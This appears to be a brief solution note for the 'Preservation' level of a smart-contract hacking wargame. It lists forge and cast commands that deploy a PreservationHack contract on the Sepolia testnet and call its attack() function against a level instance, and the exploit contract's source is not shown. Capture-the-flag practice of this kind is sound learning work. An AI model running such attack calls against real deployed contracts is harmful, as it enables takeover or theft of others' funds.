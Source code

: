 # Preservation Solution

1) Deploy `PreservationHack`:

```
forge create PreservationHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

2) Call `attack()`:

```
cast send `preservationHackAddress` "attack(address)" `ìnstanceAddress` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
